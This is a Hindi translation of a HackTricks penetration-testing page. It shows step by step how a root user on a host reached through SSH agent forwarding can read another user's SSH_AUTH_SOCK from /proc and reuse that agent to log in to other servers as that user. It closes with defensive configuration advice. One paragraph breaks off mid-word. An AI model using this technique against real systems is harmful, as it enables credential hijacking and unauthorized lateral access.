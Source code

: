 <details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी **कंपनी को HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आपको **PEASS के नवीनतम संस्करण या HackTricks को PDF में डाउनलोड करने का उपयोग** करने की आवश्यकता है? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष संग्रह [**NFTs**](https://opensea.io/collection/the-peass-family)

- प्राप्त करें [**आधिकारिक PEASS & HackTricks swag**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में या मुझे **Twitter** पर **फ़ॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स साझा करें, [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में PR जमा करके।**

</details>


# सारांश

अगर आपको `/etc/ssh_config` या `$HOME/.ssh/config` कॉन्फ़िगरेशन में इस तरह का कोई भी खोज मिलती है, तो आप क्या कर सकते हैं:
```
ForwardAgent yes
```
यदि आप मशीन के अंदर रूट हैं, तो आप शायद **/tmp** निर्देशिका में मिलने वाले किसी भी एजेंट द्वारा किए गए किसी भी SSH कनेक्शन तक पहुंच प्राप्त कर सकते हैं।

बॉब की एक SSH-एजेंट का उपयोग करके बॉब की अनुकरण करें:
```bash
SSH_AUTH_SOCK=/tmp/ssh-haqzR16816/agent.16816 ssh bob@boston
```
## यह काम कैसे करता है?

जब आप `SSH_AUTH_SOCK` चर को सेट करते हैं, तो आप बॉब की कुंजीयों तक पहुंच प्राप्त कर रहे हैं जो बॉब के SSH कनेक्शन में उपयोग की गई हैं। फिर, अगर उसकी निजी कुंजी वहाँ अभी भी है (सामान्यतः ऐसा ही होगा), तो आप उसे उपयोग करके किसी भी होस्ट तक पहुंच सकेंगे।

निजी कुंजी एजेंट की मेमोरी में अविक्रियपन के रूप में सहेजी जाती है, मुझे लगता है कि अगर आप बॉब हैं लेकिन आपको निजी कुंजी का पासवर्ड नहीं पता है, तो आप अभी भी एजेंट तक पहुंच सकते हैं और इस्तेमाल कर सकते हैं।

एक और विकल्प है, यह है कि एजेंट के मालिक और रूट उपयोगकर्ता एजेंट की मेमोरी तक पहुंच सकते हैं और निजी कुंजी को निकाल सकते हैं।

# विस्तृत व्याख्या और शोषण

**लिया गया है:** [**https://www.clockwork.com/news/2012/09/28/602/ssh\_agent\_hijacking/**](https://www.clockwork.com/news/2012/09/28/602/ssh\_agent\_hijacking/)

## **जब ForwardAgent पर भरोसा नहीं किया जा सकता है**

बिना पासवर्ड के SSH, Unix-जैसे ऑपरेटिंग सिस्टम के साथ जीवन को आसान बना देता है। अगर आपके नेटवर्क में चेन किए गए ssh सत्र (एक सीमित नेटवर्क तक पहुंच के लिए, उदाहरण के लिए) की आवश्यकता होती है, तो एजेंट फॉरवर्डिंग बहुत मददगार होता है। एजेंट फॉरवर्डिंग के साथ, मैं अपने लैपटॉप से अपने डेव सर्वर के साथ कनेक्ट कर सकता हूँ और वहाँ से एक और सर्वर से svn checkout चला सकता हूँ, सब बिना पासवर्ड के, जबकि मेरी निजी कुंजी मेरे स्थानीय कार्यस्थल पर सुरक्षित रहती है।

यह खतरनाक हो सकता है, हालांकि। एक त्वरित वेब सर्च आपको यह दिखा सकती है कि यह केवल तब सुरक्षित है जब बीच के होस्ट विश्वसनीय होते हैं। हालांकि, बहुत कम बार आपको यह व्याख्या मिलेगी कि यह क्यों खतरनाक है।

यही इस लेख का उद्देश्य है। लेकिन पहले, कुछ पृष्ठभूमि।

## **पासवर्डलेस प्रमाणीकरण कैसे काम करता है**

साधारित मोड में प्रमाणीकरण करते समय, SSH आपके पासवर्ड का उपयोग करता है ताकि आप वहीं हैं जो आप कहते हैं। सर्वर इस पासवर्ड की सुरक्षा के लिए उपयोग की गई एक हैश को एक फ़ाइल में रखे हुए हैश के साथ तुलना करता है, सत्यापित करता है कि हैश मेल खाते हैं, और आपको अंदर लेता है।

यदि कोई हमलावर सर्वर को भेजे जा रहे आपके पासवर्ड की सुरक्षा को तोड़ने के लिए उपयोग की जाने वाली एन्क्रिप्शन को तोड़ देता है, तो वह इसे चुरा सकता है और जब चाहें तब आपके रूप में लॉग इन कर सकता है। यदि कोई हमलावर सैंडबॉक्स करने की अनुमति देता है, तो वह अंततः आपके पासवर्ड को अनुमान लगाने के लिए लाखों प्रयास कर सकता है।

एक बहुत सुरक्षित प्रमाणीकरण विधि है [सार्वजनिक कुंजी प्रमाणीकरण](http://www.ibm.com/developerworks/library/l-keyc/index.html), जो एक पासवर्ड के बिना लॉग इन करने का एक तरीका है। सार्वजनिक कुंजी प्रमाणीकरण के लिए एक मिलती जुलती जोड़ी की आवश्यकता होती है। सार्वजनिक कुंजी संदेशों को एन्क्रिप्ट करती है जो केवल निजी कुंजी के साथ ही डिक्रिप्ट किए जा सकते हैं। दूरस्थ कंप्यूटर आपकी सार्वजनिक कुंजी की कॉपी का उपयोग करके आपको एक गुप्त संदेश एन्क्रिप्ट करता है। आप अपनी निजी कुंजी का उपयोग करके संदेश को डिक्रिप्ट करके दूरस्थ कंप्यूटर को भेजकर आप खुद को साबित करते हैं। आपकी निजी कुंजी पूरी तरह से सुरक्षित रहती है और हमले से बची रहती है।

निजी कुंजी मूल्यवान होती है और सुरक्षित रखी जानी चाहिए, इसलिए डिफ़ॉल्ट रूप से इसे एक एन्क्रिप्टेड प्रारूप में संग्रहीत किया जाता है। दुर्भाग्य से इसका मतलब है कि इसे उपयोग करने से पहले आपको अपने एन्क्रिप्शन पासवर्ड दर्ज करना पड़ता है। कई लेख इस असुविधा से बचने के लिए पासवर्ड-र
```
mylaptop:~ env|grep SSH_AUTH_SOCK
SSH_AUTH_SOCK=/tmp/launch-oQKpeY/Listeners

mylaptop:~ ls -l /tmp/launch-oQKpeY/Listeners
srwx------  1 alice  wheel  0 Apr  3 11:04 /tmp/launch-oQKpeY/Listeners
```
[ssh-add](http://www.openbsd.org/cgi-bin/man.cgi?query=ssh-add) कार्यक्रम हमें एजेंट में कुंजियों को देखने और संवाद करने की अनुमति देता है:
```
mylaptop:~ alice$ ssh-add -l
2048 2c:2a:d6:09:bb:55:b3:ca:0c:f1:30:f9:d9:a3:c6:9e /Users/alice/.ssh/id_rsa (RSA)
```
मेरे लैपटॉप में \~/.ssh/config में "ForwardAgent yes" है। इसलिए ssh एक टनल बनाएगा जो स्थानीय सॉकेट को रिमोट सर्वर पर स्थानीय सॉकेट से जोड़ेगा:
```
mylaptop:~ alice$ ssh seattle

seattle:~ $ env|grep SSH_AUTH_SOCK
SSH_AUTH_SOCK=/tmp/ssh-WsKcHa9990/agent.9990
```
यद्यपि मेरी कुंजी "सिएटल" पर स्थापित नहीं हैं, फिर भी ssh क्लाइंट प्रोग्राम मेरे स्थानीय मशीन पर चल रहे एजेंट तक पहुंच सकते हैं:
```
seattle:~ alice $ ssh-add -l
2048 2c:2a:d6:09:bb:55:b3:ca:0c:f1:30:f9:d9:a3:c6:9e /Users/alice/.ssh/id_rsa (RSA)
```
तो... हम किसके साथ उछल सकते हैं?
```
seattle:~ alice $ who
alice   pts/0        2012-04-06 18:24 (office.example.com)
bob     pts/1        2012-04-03 01:29 (office.example.com)
alice   pts/3        2012-04-06 18:31 (office.example.com)
alice   pts/5        2012-04-06 18:31 (office.example.com)
alice   pts/6        2012-04-06 18:33 (office.example.com)
charlie pts/23       2012-04-06 13:10 (office.example.com)
charlie pts/27       2012-04-03 12:32 (office.example.com)
bob     pts/29       2012-04-02 10:58 (office.example.com)
```
मुझे कभी से भी बॉब पसंद नहीं था। उसके एजेंट कनेक्शन को ढूंढ़ने के लिए, मुझे उसके ssh सत्रों में से एक के बच्चा प्रक्रिया को ढूंढ़नी होगी:
```
seattle:~ alice $ sudo -s
[sudo] password for alice:

seattle:~ root # pstree -p bob
sshd(16816)───bash(16817)

sshd(25296)───bash(25297)───vim(14308)
```
एक चल रहे प्रक्रिया के पर्यावरण को रूट को देखने के लिए कई तरीके हैं। Linux पर, डेटा /proc/\<pid>/environ में उपलब्ध होता है। क्योंकि यह NULL-terminated स्ट्रिंग में संग्रहीत होता है, मैं NULLs को नए लाइन में बदलने के लिए tr का उपयोग करूंगा:
```
seattle:~ root # tr '' 'n' < /proc/16817/environ | grep SSH_AUTH_SOCK
SSH_AUTH_SOCK=/tmp/ssh-haqzR16816/agent.16816
```
मुझे अब बॉब के ssh-agent को हाइजैक करने के लिए जो भी जानकारी चाहिए है, वह सब मेरे पास है:
```
seattle:~ root # SSH_AUTH_SOCK=/tmp/ssh-haqzR16816/agent.16816 ssh-add -l
2048 05:f1:12:f2:e6:ad:cb:0b:60:e3:92:fa:c3:62:19:17 /home/bob/.ssh/id_rsa (RSA)
```
यदि मेरे पास एक विशिष्ट लक्ष्य हो, तो मुझे अब सीधे कनेक्ट करने की क्षमता होनी चाहिए। अन्यथा, प्रक्रिया सूची को देखना या बॉब के इतिहास फ़ाइल में ग्रेप करना बहुत सारे अवसरों को प्रस्तुत करेगा। इस मामले में, मुझे पता है कि बॉब के पास सर्वर "बोस्टन" में सुपर गुप्त फ़ाइलें संग्रहित हैं:
```
seattle:~ root # SSH_AUTH_SOCK=/tmp/ssh-haqzR16816/agent.16816 ssh bob@boston
bob@boston:~$ whoami
bob
```
मैंने "सियाटल" पर अपनी रूट प्रिविलेज का उपयोग करके "बोस्टन" पर बॉब के रूप में पहुंचने का सफलतापूर्वक उपयोग किया है। मुझे विश्वास है कि मैं उसे नौकरी से निकालने के लिए इसका उपयोग कर सकता हूं।

## **अपने आप को सुरक्षित रखें!**

अपने ssh-agent को अपारित समय तक अपनी कुंजीयों को संग्रहित न करने दें। OS X पर, अपने Keychain को निष्क्रियता के बाद या जब आपकी स्क्रीन लॉक हो जाए, लॉक करने के लिए इसे कॉन्फ़िगर करें। अन्य Unix-y प्लेटफ़ॉर्म पर, ssh-agent को -t विकल्प के साथ पास करें ताकि इसकी कुंजीयों को  सेकंड के बाद हटा दिया जाए।

अविश्वसनीय होस्ट्स से कनेक्ट करते समय एजेंट फ़ॉरवर्डिंग को सक्षम न करें। भाग्यशाली रूप से, \~/.ssh/config सिंटैक्स इसे बहुत सरल बनाता है:
```
Host trustworthyhost
ForwardAgent yes
```

```
Host *
ForwardAgent no
```
## **सुझावित पठनीय सामग्री**

* [OpenSSH की प्रबंधन](http://www.ibm.com/developerworks/library/l-keyc/index.html) - डेनियल रॉबिन्स
* [SSH एजेंट फॉरवर्डिंग के लिए एक चित्रित गाइड](http://www.unixwiz.net/techtips/ssh-agent-forwarding.html) - स्टीव फ्रीडल
* [ssh-agent मैनुअल](http://www.openbsd.org/cgi-bin/man.cgi?query=ssh-agent)
* [ssh-add मैनुअल](http://www.openbsd.org/cgi-bin/man.cgi?query=ssh-add)


<details>

<summary><a href="https://cloud.hacktricks.xyz/pentesting-cloud/pentesting-cloud-methodology"><strong>☁️ HackTricks Cloud ☁️</strong></a> -<a href="https://twitter.com/hacktricks_live"><strong>🐦 Twitter 🐦</strong></a> - <a href="https://www.twitch.tv/hacktricks_live/schedule"><strong>🎙️ Twitch 🎙️</strong></a> - <a href="https://www.youtube.com/@hacktricks_LIVE"><strong>🎥 Youtube 🎥</strong></a></summary>

- क्या आप **साइबर सुरक्षा कंपनी** में काम करते हैं? क्या आप अपनी कंपनी को **HackTricks में विज्ञापित** देखना चाहते हैं? या क्या आप **PEASS के नवीनतम संस्करण का उपयोग करना चाहते हैं या HackTricks को PDF में डाउनलोड करना चाहते हैं**? [**सदस्यता योजनाएं**](https://github.com/sponsors/carlospolop) की जांच करें!

- खोजें [**The PEASS Family**](https://opensea.io/collection/the-peass-family), हमारा विशेष [**NFT संग्रह**](https://opensea.io/collection/the-peass-family)

- प्राप्त करें [**आधिकारिक PEASS और HackTricks स्वैग**](https://peass.creator-spring.com)

- **शामिल हों** [**💬**](https://emojipedia.org/speech-balloon/) [**डिस्कॉर्ड समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) या मुझे **ट्विटर** पर **फ़ॉलो** करें [**🐦**](https://github.com/carlospolop/hacktricks/tree/7af18b62b3bdc423e11444677a6a73d4043511e9/\[https:/emojipedia.org/bird/README.md)[**@carlospolopm**](https://twitter.com/hacktricks_live)**.**

- **अपने हैकिंग ट्रिक्स को [hacktricks रेपो](https://github.com/carlospolop/hacktricks) और [hacktricks-cloud रेपो](https://github.com/carlospolop/hacktricks-cloud) में पीआर जमा करके साझा करें**.

</details>
